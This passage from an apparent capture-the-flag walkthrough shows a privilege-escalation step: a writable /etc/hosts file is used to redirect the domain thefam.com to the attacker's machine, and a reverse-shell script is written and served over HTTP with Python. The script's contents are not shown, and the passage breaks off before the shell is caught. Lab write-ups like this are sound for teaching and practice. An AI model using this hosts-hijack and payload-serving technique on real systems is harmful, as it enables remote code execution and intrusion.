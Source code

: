 And if We see the permissions of **/etc/hosts** we can modify it.

Let's take advantage of this and change the Ip from **thefam.com**.

```bash
ls -la /etc/hosts
cat /etc/hosts
```

![kerry hosts perms](img/Captura19.PNG)

First let's make the directory on our local machine.

```bash
mkdir download
```


![prepare server](img/Captura20.PNG)

And then write the revshell in a file called **script.sh** inner the directory we made.

```bash
cat script.sh
```

![mkdir](img/Captura21.PNG)

Let's serve it in the port 80 with the help of python.

```bash
python3 -m http.server 80
```

![python server](img/Captura22.PNG)
